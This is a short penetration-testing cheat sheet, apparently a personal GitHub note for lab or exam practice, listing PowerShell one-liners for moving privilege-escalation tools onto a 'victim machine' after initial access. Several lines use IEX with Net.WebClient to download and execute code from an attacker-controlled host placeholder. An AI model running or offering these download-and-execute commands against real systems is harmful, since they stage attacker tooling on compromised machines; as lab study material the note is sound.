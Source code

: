 ###  Transfering Files to the victim machine after gaining intial access.

## This is something I have to google pretty often so the below will be a list of the tools I use the most when transfering **Priv Esc** or other tools onto the victim machine.

# PowerShell - This will need to be running on your victim machine to work.

First run **$ python -m SimpleHTTPServer**

1. $ powershell -c wget "http://<tun0 IP>:80/File-Name" -outfile New-File-Name (Make sure this file is in the current directory on the host machine and make sure python websever is running)
2. $ powershell "IEX (New-Object Net.WebClient).DownloadString('http://<tun0 IP>/File-Name')" - This will download and execute the file.
3. $ IEX (New-Object Net.WebClient).DownloadString('http://<tun0>/File-Name') - This will download and execute the file.
4. $ (new-object System.Net.WebClient).DownloadFile('http://<tun0>/File-Name','C:\Users\Something\Desktop\File-Name') - Will download the file from the command line.
5. 
